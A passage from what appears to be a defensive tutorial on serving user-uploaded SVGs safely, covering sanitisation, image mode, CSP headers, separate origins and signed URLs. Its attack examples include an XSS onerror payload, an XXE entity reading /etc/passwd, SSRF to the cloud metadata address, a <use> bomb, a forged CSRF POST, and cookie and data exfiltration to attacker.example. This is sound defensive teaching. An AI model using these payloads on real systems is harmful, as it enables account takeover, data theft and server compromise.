The browser treats it as part of your page. Scripts and event handlers run on your origin, and CSS travels in both directions. That second part is why people inline icons, since your stylesheet can reach inside the graphic:

```css
.icon circle {
  fill: currentColor;
}
```

`currentColor` is a CSS keyword for the element’s text colour, so the icon follows the surrounding text and dark mode for free.

### Through innerHTML or a framework

Inserting an SVG string with script has the same effect, and React’s escape hatch does exactly this:

```js
container.innerHTML = svgText;
```

```jsx
<div dangerouslySetInnerHTML={{ __html: svgText }} />
```

Browsers don’t run `<script>` tags inserted through `innerHTML`, which gives people false confidence. Event handlers run just fine:

```js
container.innerHTML = `<svg><image href="x" onerror="alert(document.domain)" /></svg>`;
```

### As an image

An `` tag or any CSS property that takes an image loads the file in a restricted mode:

```html

```

```css
.hero {
  background-image: url('/uploads/logo.svg');
}
```

Drawing the image onto a `<canvas>` with `drawImage` goes through the same restricted mode.

### With object or embed

These load the SVG as a separate document inside your page:

```html
<object data="/uploads/logo.svg" type="image/svg+xml"></object> <embed src="/uploads/logo.svg" type="image/svg+xml" />
```

Scripts run with the origin of the SVG’s URL. If that’s the same origin as your page, the file can reach right into it with `parent.document`. Neither element supports `sandbox`, so avoid them for untrusted files.

### In an iframe

An `<iframe>` has the same powers, with the important difference that you can sandbox it:

```html
<iframe src="/uploads/logo.svg"></iframe> <iframe src="/uploads/logo.svg" sandbox></iframe>
```

### Opened directly

Typing the URL, following a link or choosing “Open image in new tab” loads the SVG as a top-level document. Scripts run, with the origin of its URL.

### From data and blob URLs

These two kinds of URL hold the file’s contents without a server being involved:

```js
const dataUrl = 'data:image/svg+xml,' + encodeURIComponent(svgText);
const blobUrl = URL.createObjectURL(new Blob([svgText], { type: 'image/svg+xml' }));
```

In an ``, both are in image mode. Used as a document, they behave differently. A `data:` URL in an iframe gets an opaque origin, and browsers refuse to open one as a top-level page. A `blob:` URL inherits the origin of the page that created it, which comes up again shortly.

### Side by side

| How it’s rendered                | Do scripts run?                   | Can it load remote URLs? | Whose origin?            |
| -------------------------------- | --------------------------------- | ------------------------ | ------------------------ |
| Inline in server-rendered HTML   | Yes                               | Yes                      | Yours                    |
| `el.innerHTML = svg`             | Event handlers yes, `<script>` no | Yes                      | Yours                    |
| ``                      | No                                | No                       | None                     |
| CSS `background-image`           | No                                | No                       | None                     |
| `<object>` or `<embed>`          | Yes                               | Yes                      | The SVG URL’s            |
| `<iframe>`                       | Yes                               | Yes                      | The SVG URL’s            |
| `<iframe sandbox>`               | Only with `allow-scripts`         | Yes                      | Opaque (`null`)          |
| Opened directly in a tab         | Yes                               | Yes                      | The SVG URL’s            |
| `data:` URL in an `<iframe>`     | Yes                               | Yes                      | Opaque (`null`)          |
| `blob:` URL loaded as a document | Yes                               | Yes                      | Whoever created the blob |

## Inlining an SVG safely

Inline is the only option where your CSS can reach inside the graphic. It’s also a stranger’s markup pasted into your page, so it has to be sanitised first.

A sanitiser parses the markup, walks through every element and attribute, removes whatever isn’t on an allow-list, and turns what’s left back into text. [DOMPurify](https://github.com/cure53/DOMPurify) is the standard tool for this.



DOMPurify’s SVG profile strips scripts and event handlers, but on its own it isn’t enough for inlining. `<style>` blocks survive and restyle the page, and `<image href>` and `fill="url(https://…)"` can still make network requests. This version is built to keep an SVG’s references inside the file:

```bash
npm install dompurify jsdom
```

```js title="sanitize-svg.js"
import createDOMPurify from 'dompurify';
import { JSDOM } from 'jsdom';

const { window } = new JSDOM('');
const DOMPurify = createDOMPurify(window);

export const MAX_BYTES = 256 * 1024;
const LOCAL_URL = /^url\(\s*['"]?#[\w-]+['"]?\s*\)$/i;

// Only same-file references survive: href="#id" and url(#id).
DOMPurify.addHook('uponSanitizeAttribute', (_node, attr) => {
  const value = attr.attrValue.trim();
  const isLink = /^(xlink:)?href$/i.test(attr.attrName);
  const isRemote = isLink ? !value.startsWith('#') : !LOCAL_URL.test(value) && /url\s*\(|image-set|\\/i.test(value);
  if (isRemote) attr.keepAttr = false;
});

export function cleanSvg(buffer) {
  if (buffer.length > MAX_BYTES) throw new Error('SVG is too large');

  const fragment = DOMPurify.sanitize(buffer.toString('utf8'), {
    USE_PROFILES: { svg: true, svgFilters: true },
    FORBID_TAGS: ['style'],
    FORBID_ATTR: ['style'],
    RETURN_DOM_FRAGMENT: true,
  });

  const root = fragment.firstElementChild;
  const strayText = [...fragment.childNodes].some((node) => node.nodeType === 3 && node.textContent.trim());
  if (fragment.childElementCount !== 1 || root.localName !== 'svg' || strayText) throw new Error('Not an SVG');

  return new window.XMLSerializer().serializeToString(root);
}
```

Here’s what the options do:

| Option                                          | Why it’s there                                                                                                              |
| ----------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| `USE_PROFILES: { svg: true, svgFilters: true }` | Starts from an allow-list of SVG elements. Filters like blur and drop shadow are included because design tools export them. |
| `FORBID_TAGS: ['style']`                        | A `<style>` block would apply to your whole page.                                                                           |
| `FORBID_ATTR: ['style']`                        | An inline style like `position: fixed` could stretch the graphic over your entire page.                                     |
| `RETURN_DOM_FRAGMENT: true`                     | Returns a DOM instead of a string, so the result can be checked and written out as XML.                                     |

The hook is the part DOMPurify doesn’t do for you. It runs once for every attribute, and setting `keepAttr` to `false` removes that attribute. `isLink` covers `href` and its older `xlink:href` form, which may only point at a `#id` in the same file. Every other attribute is checked for `url(`, and only the exact form `url(#id)` is allowed. `image-set` is on the list because a `mask` attribute can name a remote image without `url(`, as in `mask="image-set('https://attacker.example/x.png' 1x)"`. The backslash check is there because CSS escapes let an attacker spell `url` as `u\72 l`.

The last few lines of `cleanSvg` are there because of where the result ends up. DOMPurify parses with HTML rules and normally returns HTML, but this output gets saved as an `.svg` file, which a browser reads as strict XML. A non-breaking space comes back as `&nbsp;`, which XML doesn’t define, and the whole image then fails to load. So `RETURN_DOM_FRAGMENT` hands back a DOM instead, the check confirms it holds exactly one `<svg>` and no stray text, and `XMLSerializer` writes it out as XML. That also adds the `xmlns` if the upload left it out.

Here’s an input and what comes out of it:

```xml title="Before"
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" onload="alert(1)">
  <script>alert(2)</script>
  <style>body { display: none }</style>
  <a href="https://attacker.example/"><text y="10">Visit</text></a>
  <image href="https://attacker.example/pixel.png" width="1" height="1" />
  <defs>
    <linearGradient id="brand"><stop offset="0" stop-color="#4f46e5" /></linearGradient>
  </defs>
  <circle cx="12" cy="12" r="10" fill="url(#brand)" />
  <rect width="4" height="4" fill="url(https://attacker.example/paint.svg#p)" />
</svg>
```

```xml title="After"
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24">
  <a><text y="10">Visit</text></a>
  <image width="1" height="1"/>
  <defs>
    <linearGradient id="brand"><stop offset="0" stop-color="#4f46e5"/></linearGradient>
  </defs>
  <circle cx="12" cy="12" r="10" fill="url(#brand)"/>
  <rect width="4" height="4"/>
</svg>
```

The script, stylesheet and event handler are gone. The link and remote image are still there but have nothing to point at, and the gradient survives because it’s a reference inside the file.

Run this at upload, [on a worker thread](#sanitising-can-stall-your-server), and store only the output. Expect three side effects. DOMPurify removes `<use>`, so sprite-style icons will break. Dropping the `style` attribute strips the colours from files that keep them there, which Inkscape does by default. And the hook removes embedded images, since `<image href="data:…">` isn’t a reference to something inside the file, so exports from design tools can lose their bitmaps. If any of these hurts, that’s a good sign you want image mode instead.

That hook is a deny-list, the approach this post warned about earlier, and CSS keeps gaining new ways to name a URL. DOMPurify has had bypasses over the years too, so keep it and jsdom up to date, and treat a CSP on your pages as the real limit:

```http
Content-Security-Policy: default-src 'self'; object-src 'none'; base-uri 'none'
```

`default-src 'self'` limits the page to resources from your own origin, so remote references can’t load. Because `'unsafe-inline'` isn’t listed, an event handler that sneaks past the sanitiser won’t run. `object-src 'none'` bans `<object>` and `<embed>`, and `base-uri 'none'` stops an injected `<base>` tag from redirecting your relative URLs. Treat this as a starting point, since your own app may need to add sources.

## Rendering an SVG as an image

If you only need the picture, this is the right answer almost every time:

```html

```

| Attribute          | What it does                                                                   |
| ------------------ | ------------------------------------------------------------------------------ |
| `src`              | The file’s URL.                                                                |
| `alt`              | The text shown to screen readers and when the image can’t load.                |
| `width`, `height`  | Reserves space in the layout, so the page doesn’t jump when the image arrives. |
| `loading="lazy"`   | Waits to fetch the image until it’s near the viewport.                         |
| `decoding="async"` | Lets the browser decode the image without holding up other work.               |

Those last two are about performance. The security comes from using `` at all.

### Benefits of image mode

Browsers load the file in what the [SVG Integration spec](https://www.w3.org/TR/svg-integration/) calls secure animated mode. Declarative animation still plays, but very little else does. Load `evil.svg` this way and here’s what happens:

- **Scripts don’t run.** Neither `<script>` nor event handlers do anything.
- **Nothing loads from the network.** `<image href="https://…">` never makes its request, so anything the file needs has to be embedded in it.
- **There’s no interaction.** Links inside the file are dead, and clicks belong to the `` element.
- **CSS stays put.** The file can’t style your page, and your page can’t style the file.
- **Your page is out of reach.** The file can’t see your DOM, cookies or storage.

### What image mode costs you

You can’t make the file interactive, and your CSS can’t reach inside it. If recolouring is the only reason you were going to inline an icon, there’s a safe alternative. CSS `mask` uses the SVG’s shape as a stencil over the element’s own background:

```css
.icon {
  width: 24px;
  height: 24px;
  background: currentColor;
  mask: url('/uploads/icon.svg') center / contain no-repeat;
}
```

The SVG stays in image mode and `currentColor` still works. If the file is on another origin, it needs CORS headers for this.

### Attack: someone opens the file directly

This is the big one. `` restricts how that one tag loads the file, and it says nothing about the file’s URL. If someone chooses “Open image in new tab”, or clicks a link in a phishing email, the same file loads as a document and its script runs on your origin.



The fix is a set of response headers on every uploaded file. With nginx:

```nginx title="nginx.conf"
location /uploads/ {
  add_header Content-Security-Policy "default-src 'none'; style-src 'unsafe-inline'; sandbox" always;
  add_header Content-Disposition "attachment" always;
  add_header X-Content-Type-Options "nosniff" always;
  add_header Cross-Origin-Resource-Policy "same-origin" always;
}
```

Here’s why each one is there:

- **`Content-Security-Policy`**: `sandbox` gives a directly opened file an opaque origin with no scripts, and `default-src 'none'` blocks its network access. `style-src 'unsafe-inline'` lets the file’s own CSS apply, so it still looks right. The “unsafe” label doesn’t matter here, since the document has no scripts and nowhere to send anything.
- **`Content-Disposition: attachment`**: Opening the URL downloads the file. `` ignores this header, so images keep working.
- **`X-Content-Type-Options: nosniff`**: The browser won’t guess a different file type.
- **`Cross-Origin-Resource-Policy: same-origin`**: Other sites can’t embed the file.

The `always` keyword makes nginx send the header on error responses too. Also watch out for one nginx quirk: a block with its own `add_header` stops inheriting the ones from outer blocks, so repeat your HSTS and other global headers here.

The same file now behaves differently depending on how it’s requested:



Either the CSP or the `Content-Disposition` header would stop the script alone. Keeping both means one mistake doesn’t undo you. Then check what’s actually being sent:

```bash
curl -I https://app.example.com/uploads/logo.svg
```

```text title="Expected output"
HTTP/2 200
content-type: image/svg+xml
content-security-policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
content-disposition: attachment
x-content-type-options: nosniff
cross-origin-resource-policy: same-origin
```

You’re in good company with this set. GitHub sends that exact CSP from `raw.githubusercontent.com`, Google’s [guide to hosting user data](https://web.dev/articles/securely-hosting-user-data) recommends nearly the same headers, and [Next.js](https://nextjs.org/docs/app/api-reference/components/image) asks for an attachment disposition and a sandboxing CSP if you turn on `dangerouslyAllowSVG`.

<Note>
  these headers only protect you while they’re being sent. A rewritten CDN rule or a new upload path can quietly remove
  them, which is the best argument for moving uploads to another origin.
</Note>

### Attack: upload previews through blob URLs

Showing a preview before uploading is usually done with a `blob:` URL. Since that URL inherits your page’s origin, a preview opened in its own tab runs the file’s script on your origin. Revoke the URL once the image has loaded, and there’s nothing left to open:

```js
const url = URL.createObjectURL(file);
img.onload = () => URL.revokeObjectURL(url);
img.src = url;
```

### Attack: the picture can lie

Image mode doesn’t stop a file from drawing whatever it likes:

```xml
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="60">
  <rect width="400" height="60" fill="#b91c1c" />
  <text x="16" y="36" fill="white">Your account is locked. Call 555-0100 to restore it.</text>
</svg>
```

Show uploads in a fixed-size box, in places that are clearly user content, and away from your own controls and notices.

### Attack: it can still freeze the tab

This is the `<use>` problem from earlier. Each group draws ten copies of the group before it:

```xml title="use-bomb.svg"
<svg xmlns="http://www.w3.org/2000/svg">
  <defs>
    <g id="l0"><rect width="1" height="1" /></g>
    <g id="l1"><use href="#l0" /><use href="#l0" /> <!-- ten of these --></g>
    <g id="l2"><use href="#l1" /><use href="#l1" /> <!-- ten of these --></g>
    <!-- and so on, up to l5 -->
  </defs>
  <use href="#l5" />
</svg>
```

Five levels of ten is 100,000 shapes from a file of about 1 KB, and each extra level multiplies the work by ten. On a desktop browser, that many shapes is enough to lock up the page for several seconds, because the work happens on the page’s main thread even in image mode. `cleanSvg` handles this by removing `<use>` and capping the file size.

### Attack: hot-linked files report back

Image mode stops requests made from inside the file, but the request for the file itself still goes to whoever hosts it:

```html

```

That host sees your visitor’s IP address and can swap the picture whenever they like. Download the file, clean it and host it yourself.

## Processing SVGs on the server

Image mode is a browser feature. Thumbnail generators, PDF exporters and metadata extractors don’t have it, so an uploaded SVG can attack your server directly.

### XML external entities (XXE)

Earlier we saw an entity holding some text. An entity can also point at a file:

```xml title="xxe.svg"
<!DOCTYPE svg [<!ENTITY secret SYSTEM "file:///etc/passwd">]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text y="20">&secret;</text>
</svg>
```

An XML parser with external entities enabled reads `/etc/passwd` from your server and pastes it into the picture. If the attacker can see the generated thumbnail, they can read the file.

If you have to parse SVG as XML yourself, use a parser that refuses entities. In Python, for example:

```python
from defusedxml import ElementTree

tree = ElementTree.fromstring(svg_bytes)  # Raises EntitiesForbidden on the file above
```

### Server-side request forgery (SSRF)

SSRF means tricking your server into making a request on the attacker’s behalf. A renderer that fetches remote references will do that if you ask it to:

```xml
<image href="http://169.254.169.254/latest/meta-data/" width="100" height="100" />
```

`169.254.169.254` is the address where cloud providers serve instance metadata, sometimes including credentials. It’s only reachable from inside your network, and that’s exactly where your renderer runs.

### Sanitising can stall your server

`cleanSvg` is synchronous, and Node runs your JavaScript on one thread, so every other request waits while it works. The size cap doesn’t bound that work, because what costs time is nesting. Here’s a file that’s nothing but `<g>` tags opening inside each other, timed on my machine:

| Nested tags | File size | Time in `cleanSvg` |
| ----------- | --------- | ------------------ |
| 500         | 1.5 KB    | 0.1s               |
| 2,000       | 6 KB      | 0.9s               |
| 10,000      | 30 KB     | 13s                |
| 20,000      | 60 KB     | Still going at 45s |

All of those are well under the 256 KB limit, so run the sanitiser on a worker thread with a time limit. [Piscina](https://github.com/piscinajs/piscina) is a small worker pool for Node, and aborting a task terminates its thread even if the code is stuck in a loop:

```bash
npm install piscina
```

```js title="sanitize-worker.js"
import { cleanSvg } from './sanitize-svg.js';

export default (bytes) => cleanSvg(Buffer.from(bytes));
```

```js title="clean-in-worker.js"
import Piscina from 'piscina';

const pool = new Piscina({
  filename: new URL('./sanitize-worker.js', import.meta.url).href,
  minThreads: 1,
  maxThreads: 2,
});

export const cleanInWorker = (buffer) => pool.run(buffer, { signal: AbortSignal.timeout(5000) });
```

`minThreads: 1` loads a thread up front, because importing jsdom takes a few seconds and the first upload shouldn’t have to wait for it. A normal logo cleans in milliseconds, so anything that hits the limit is either hostile or not worth keeping.

### Convert to PNG with a safe renderer

If you don’t need a vector when you display the file, convert it to PNG. The output has no scripts, no references and no parser left to attack. [resvg](https://github.com/thx/resvg-js) is a good renderer for the job, since it has no script engine or HTTP client and refuses the entity trick above.

Clean the file first, though. Given an `<image>` with an absolute path, resvg will read that image from local disk, and `cleanSvg` removes the path.

```bash
npm install @resvg/resvg-js
```

```js title="rasterize.js"
import { Resvg } from '@resvg/resvg-js';
import { cleanInWorker } from './clean-in-worker.js';

export async function toPng(buffer) {
  const resvg = new Resvg(await cleanInWorker(buffer), { fitTo: { mode: 'width', value: 512 } });
  if (resvg.height > resvg.width * 4) throw new Error('SVG is too tall');
  return resvg.render().asPng();
}
```

The height check matters more than it looks. `fitTo` only fixes the width, so the height follows the file’s proportions. Without the check, a 64-byte file with `viewBox="0 0 1 100000"` asks for about 105 GB of memory, and the allocation failure kills the whole Node process in a way `try/catch` can’t stop.

If ImageMagick is anywhere in your pipeline, turn off its SVG handling:

```xml title="/etc/ImageMagick-7/policy.xml"
<policy domain="coder" rights="none" pattern="SVG" />
<policy domain="coder" rights="none" pattern="MSVG" />
<policy domain="coder" rights="none" pattern="MVG" />
```

## A complete upload flow

Here’s everything so far as one small Express server.



```bash
npm install express multer dompurify jsdom piscina
```

```js title="server.js"
import { randomUUID } from 'node:crypto';
import { mkdir, writeFile } from 'node:fs/promises';
import express from 'express';
import multer from 'multer';
import { cleanInWorker } from './clean-in-worker.js';
import { MAX_BYTES } from './sanitize-svg.js';

const UPLOAD_DIR = 'uploads';
await mkdir(UPLOAD_DIR, { recursive: true });

const app = express();
const upload = multer({ limits: { fileSize: MAX_BYTES } });

app.post('/api/logos', upload.single('logo'), async (req, res) => {
  if (!req.file) return res.status(400).json({ error: 'No file uploaded' });

  const clean = await cleanInWorker(req.file.buffer);
  const name = `${randomUUID()}.svg`;
  await writeFile(`${UPLOAD_DIR}/${name}`, clean);

  res.status(201).json({ url: `/uploads/${name}` });
});

app.use(
  '/uploads',
  express.static(UPLOAD_DIR, {
    setHeaders(res) {
      res.set({
        'Content-Security-Policy': "default-src 'none'; style-src 'unsafe-inline'; sandbox",
        'Content-Disposition': 'attachment',
        'X-Content-Type-Options': 'nosniff',
        'Cross-Origin-Resource-Policy': 'same-origin',
      });
    },
  }),
);

app.use((err, _req, res, _next) => {
  res.status(400).json({ error: err.message });
});

app.listen(3000);
```

A few choices here are deliberate. The server picks the filename, so an attacker can’t choose a path or a misleading extension. The file’s claimed type is ignored, and `express.static` sets `Content-Type` from the `.svg` extension the server chose. Only the cleaned output gets written to disk. This uses Express 5, which passes errors from async handlers to the error middleware; on Express 4 you’d need a `try/catch` around the handler.

The form and the display are ordinary HTML:

```html
<form action="/api/logos" method="post" enctype="multipart/form-data">
  <input type="file" name="logo" accept=".svg,image/svg+xml" />
  <button>Upload</button>
</form>


```

## Rendering an SVG from a different origin

Everything so far still serves uploads from your app’s origin, so a single missing header brings back XSS. Moving uploads to their own subdomain, like `https://usercontent.example.com`, gives you a second line of defence. Even if a script does run, it runs somewhere with nothing worth stealing. This is also the first option that makes sense when an SVG genuinely needs to run its own scripts.

### Benefits of a separate origin

- **The same-origin policy works for you.** Code on the upload host can’t touch the app’s DOM, `localStorage` or IndexedDB, and can’t read the app’s API responses.
- **Host-only cookies stay out of it.** A cookie set without a `Domain` attribute is neither sent to the subdomain nor readable there.
- **Mistakes cost less.** A lost CSP header now means a script running on a host full of static files, rather than XSS in your app.
- **It’s cheap.** You need a DNS record and a server block.

### Setting up a separate origin

Create the DNS record:

```text
usercontent.example.com.  300  IN  CNAME  files.your-host.example.
```

Serve nothing but files from the new host. The headers are the same as before, except the resource policy becomes `same-site`, because `same-origin` would block your app’s `` tags:

```nginx title="usercontent.example.com.conf"
server {
  listen 443 ssl;
  server_name usercontent.example.com;
  root /var/www/uploads;
  # ssl_certificate and ssl_certificate_key go here

  add_header Content-Security-Policy "default-src 'none'; style-src 'unsafe-inline'; sandbox" always;
  add_header Content-Disposition "attachment" always;
  add_header X-Content-Type-Options "nosniff" always;
  add_header Cross-Origin-Resource-Policy "same-site" always;
}
```

Point your images at it, and allow that host in the app’s own CSP if you have one:

```html

```

```http
Content-Security-Policy: default-src 'self'; img-src 'self' https://usercontent.example.com
```

Finally, lock your session cookie to the app’s host with the `__Host-` prefix, so the subdomain can neither read it nor replace it:

```http
Set-Cookie: __Host-session=abc123; Path=/; Secure; HttpOnly; SameSite=Lax
```

### Showing an SVG that needs its own scripts

If the SVG has to be live, like an interactive chart, embed it in an iframe and sandbox it from both sides:

```html
<iframe
  src="https://usercontent.example.com/chart.svg"
  sandbox="allow-scripts"
  referrerpolicy="no-referrer"
  loading="lazy"
  title="Sales chart"
></iframe>
```

| Attribute                      | What it does                                                           |
| ------------------------------ | ---------------------------------------------------------------------- |
| `sandbox="allow-scripts"`      | Lets scripts run in an opaque origin, with forms and popups still off. |
| `referrerpolicy="no-referrer"` | Keeps your page’s URL from being sent to the frame.                    |
| `loading="lazy"`               | Waits to load the frame until it’s near the viewport.                  |
| `title`                        | Names the frame for screen readers.                                    |

For those files, send this instead of the headers above. `Content-Disposition: attachment` has to go, or the frame would try to download the file:

```http
Content-Security-Policy: sandbox allow-scripts; default-src 'none'; script-src 'unsafe-inline'; style-src 'unsafe-inline'; frame-ancestors https://app.example.com
```

`script-src 'unsafe-inline'` allows the scripts inside the file, while `default-src 'none'` blocks the requests they’d make with `fetch` or `sendBeacon`. `frame-ancestors` means only your app can embed the file. With that in place, the SVG’s script runs with an origin of `null`. Reading cookies, `localStorage` or the parent’s DOM all throw `SecurityError`, `fetch` is blocked, and the script can’t navigate the top window.

One way out stays open. CSP doesn’t govern navigation, so the script can still point its own frame at another server and carry data in the URL:

```js
location.href = 'https://attacker.example/collect?data=' + encodeURIComponent(data);
```

So an active SVG can only leak what it already holds, which is its own contents and anything you post to it. That’s why you should [never send it anything secret](#attack-your-postmessage-handler-trusts-too-much).

Since `sandbox` gives a file an opaque origin of its own even on your main host, you get much of this without a subdomain. Google’s guide says that if Spectre and renderer compromise are outside your threat model, CSP sandbox “is likely a sufficient solution”. So if a new subdomain is more than you can do this week, ship the header today.

### What still crosses between subdomains

Nearly everything in the attacks below has the same root cause: a different origin can still be the same site, and browsers extend a lot of trust within one. These attacks assume a script managed to run on the upload host, say because a header went missing.



### Attack: forged requests get past SameSite

`SameSite` compares sites, and these two match. So a script on the subdomain can do this, even against a `SameSite=Strict` session cookie:

```js
fetch('https://app.example.com/api/transfer', {
  method: 'POST',
  mode: 'no-cors',
  credentials: 'include',
  body: new URLSearchParams({ amount: '1000', to: 'attacker' }),
});
```

`credentials: 'include'` tells the browser to attach cookies, and a `URLSearchParams` body goes out with the same content type as a form. The script can’t read the response, but the transfer has already happened. An API that only accepts `application/json` has some protection, because `no-cors` can’t send that content type and the server rejects what arrives instead. Anything that accepts forms doesn’t.

Your server can spot this, because browsers label each request with a [`Sec-Fetch-Site`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Sec-Fetch-Site) header. Its value is `same-origin`, `same-site`, `cross-site` or `none`, and a browser won’t let a script change it:

```js title="require-same-origin.js"
export function requireSameOrigin(req, res, next) {
  if (['GET', 'HEAD', 'OPTIONS'].includes(req.method)) return next();

  const site = req.get('Sec-Fetch-Site');
  if (site && site !== 'same-origin') return res.status(403).send('Cross-site request blocked');
  next();
}
```

```js
app.use(requireSameOrigin);
```

Use it alongside CSRF tokens, since the header is missing from older and non-browser clients. If another subdomain of yours calls this API on purpose, allow it by checking `Origin` against an exact list.

### Attack: cookies get planted on your domain

Script on the subdomain can set a cookie for the whole domain, and the app will receive it:

```js
document.cookie = 'session=attacker-value; Domain=example.com; Path=/';
```

This is sometimes called cookie tossing. It enables session fixation, where the victim’s browser gets logged in to the attacker’s account, so anything the victim enters ends up there. It also defeats double-submit CSRF tokens, a pattern that compares a cookie to a form field, because the attacker can now set both.

A `__Host-` cookie can’t be overwritten this way, since the browser refuses any attempt to set one with a `Domain`.

### Attack: domain-wide cookies are exposed

Anything set with `Domain=example.com` and no `HttpOnly` can be read from the subdomain:

```js
new Image().src = 'https://attacker.example/collect?c=' + encodeURIComponent(document.cookie);
```

Check your SSO and analytics cookies. Add `HttpOnly` where you can, and scope cookies to one host wherever possible.

### Attack: your allow-lists include the upload host

Wildcards written for your own subdomains also match the place where attackers’ files live:

```js
// Trusts every subdomain, including usercontent.example.com
if (origin.endsWith('.example.com')) res.set('Access-Control-Allow-Origin', origin);

// Trusts only what you meant to
const ALLOWED = new Set(['https://app.example.com', 'https://admin.example.com']);
if (ALLOWED.has(origin)) res.set('Access-Control-Allow-Origin', origin);
```

Look for the same thing with `*.example.com` in your CSP, wildcard OAuth redirect URLs and loose `postMessage` checks, and replace them with exact hosts.

### Attack: users’ files can attack each other

Every upload shares one origin, so a script in one file can read another:

```js
// Running in the attacker's SVG on usercontent.example.com
const report = await fetch('/private/another-customer-report.svg').then((r) => r.text());
```

`sandbox` in the CSP stops this, because each document gets its own opaque origin, but it has to be on every response.

### Attack: phishing gets your real domain

A fake login page on `usercontent.example.com` shows your domain in the address bar. Many password managers match on the registrable domain too, so they may offer the victim’s real credentials to the attacker’s form.

### Attack: there’s no process boundary

Chromium’s [site isolation](https://chromium.googlesource.com/chromium/src/+/main/docs/process_model_and_site_isolation.md) gives each site its own operating system process, and two frames from the same site can share one. Put the `<use>` bomb in a same-site iframe and the parent page can freeze for seconds along with it. Sharing a process also leaves you more exposed to Spectre-style attacks, which read memory from elsewhere in the same process.

## Rendering an SVG from a different domain

The next step is to give uploads a registrable domain of their own, like `example-usercontent.net`. GitHub does this with `githubusercontent.com` and Google with `googleusercontent.com`.

### Benefits of a separate domain

You keep everything from the last section and add a site boundary:

- **`SameSite` works again.** The forged POST from before arrives with no cookies at all, labelled `Sec-Fetch-Site: cross-site`.
- **Cookies can’t be planted.** Browsers won’t accept `Domain=example.com` from an unrelated domain.
- **Your wildcards stop matching.** `*.example.com` no longer covers the upload host.
- **Password managers stay quiet.** A different registrable domain doesn’t match saved logins.
- **You get a real process boundary.** With the `<use>` bomb in a cross-site iframe, the parent page stays responsive, because the frame’s work happens in another process.
- **Your reputation is separate.** If someone hosts a phishing page and it lands on a blocklist, the sandbox domain takes the hit instead of the one your product runs on.

### Setting up a separate domain

Register the domain and use the same server block with a new `server_name`. The resource policy changes once more, because `same-site` would now block your app’s images:

```nginx
add_header Cross-Origin-Resource-Policy "cross-origin" always;
```

The sandbox domain has no cookies, which is the point, so private files need another way to prove access. Signed URLs are the usual answer. Your app checks permissions and hands out a link that expires quickly.



The signature is an HMAC, a hash of the file ID and expiry time made with a secret only your servers know. Change either value and the signature stops matching, and nobody can produce a valid one without the secret.

```js title="signed-urls.js"
import { createHmac, timingSafeEqual } from 'node:crypto';

const SECRET = process.env.FILE_URL_SECRET;
const sign = (fileId, expires) => createHmac('sha256', SECRET).update(`${fileId}.${expires}`).digest('base64url');

export function signedUrl(fileId, ttlSeconds = 300) {
  const expires = Math.floor(Date.now() / 1000) + ttlSeconds;
  return `https://example-usercontent.net/f/${fileId}.svg?expires=${expires}&sig=${sign(fileId, expires)}`;
}

export function isValid(fileId, expires, sig) {
  if (Number(expires) < Date.now() / 1000) return false;
  const expected = Buffer.from(sign(fileId, expires));
  const actual = Buffer.from(String(sig));
  return expected.length === actual.length && timingSafeEqual(expected, actual);
}
```

`timingSafeEqual` compares the two values in constant time, so an attacker can’t work out a valid signature by measuring how fast wrong guesses fail. The file server checks the signature before sending anything:

```js title="file-server.js"
import path from 'node:path';
import express from 'express';
import { isValid } from './signed-urls.js';

const app = express();

app.get('/f/:id.svg', (req, res) => {
  const { id } = req.params;
  const { expires, sig } = req.query;
  if (!/^[\w-]+$/.test(id) || !isValid(id, expires, sig)) return res.sendStatus(403);

  res.set({
    'Content-Security-Policy': "default-src 'none'; style-src 'unsafe-inline'; sandbox",
    'Content-Disposition': 'attachment',
    'X-Content-Type-Options': 'nosniff',
    'Cross-Origin-Resource-Policy': 'cross-origin',
    'Referrer-Policy': 'no-referrer',
  });
  res.sendFile(`${id}.svg`, { root: path.resolve('uploads') });
});

app.listen(3001);
```

If your files already live in S3 or behind CloudFront, their signed URLs do this for you.

### Attack: phishing still works

It’s just less convincing. An active SVG can draw a login form and send the answers anywhere. Keep `Content-Disposition: attachment` on files you don’t mean to show as documents, and leave `allow-forms`, `allow-popups` and `allow-top-navigation` out of your sandbox.

### Attack: the domain gets blocklisted

As far as attackers are concerned, it’s a free file host. Rate-limit uploads, publish an abuse address and watch Google Search Console for Safe Browsing warnings. Keep your product’s own assets off this domain so they don’t go down with it.

### Attack: users still share one origin

A separate domain protects your app from the files, but it doesn’t protect the files from each other. The simple fix is the opaque origin from `sandbox`. Random subdomains like `k3f9x2.example-usercontent.net` give each file its own origin too, though they’re still one site and need a wildcard certificate.

To make each subdomain a separate site, you’d add the domain to the [Public Suffix List](https://github.com/publicsuffix/list/wiki/Guidelines), where `github.io` and `githubusercontent.com` already sit. That’s a real commitment. You need a pull request, a `_psl` DNS record and more than two years left on the registration. Projects serving fewer than “thousands of users” are likely to be declined, there’s no way to expedite it, and changes can take a while to reach clients.

### Attack: signed URLs leak

They end up in logs, chat messages and browser history, and anyone holding one has access until it expires. Keep the lifetime short, send `Referrer-Policy: no-referrer`, and never put a session token in a URL.

### Attack: your postMessage handler trusts too much

`postMessage` is how a page and a frame on different origins talk to each other. Every sandboxed frame has the origin `null`, so checking `event.origin` tells you nothing. Check which window sent the message instead, and treat the contents as untrusted:

```js
// Wrong: any sandboxed frame on the page passes this check
window.addEventListener('message', (event) => {
  if (event.origin === 'null') applySettings(event.data);
});

// Right: only this specific frame gets through
window.addEventListener('message', (event) => {
  if (event.source !== frame.contentWindow) return;
  if (event.data?.type === 'resize' && Number.isFinite(event.data.height)) {
    frame.style.height = `${Math.min(event.data.height, 800)}px`;
  }
});
```

For the same reason, you can’t name a sandboxed frame as a message target and have to send with `'*'`, so never send it anything secret.

### Attack: anyone can frame your files

An active file can be embedded on an attacker’s site to borrow your sandbox domain. `frame-ancestors https://app.example.com` is what stops that, so keep it in the policy for anything that’s allowed to run.

### Attack: the hosting is misconfigured

Object stores often keep whatever `Content-Type` the uploader sent, so an attacker can get `text/html` stored under your domain. Set the metadata yourself:

```js
await s3.send(
  new PutObjectCommand({
    Bucket: 'acme-uploads',
    Key: `${fileId}.svg`,
    Body: clean,
    ContentType: 'image/svg+xml',
    ContentDisposition: 'attachment',
  }),
);
```

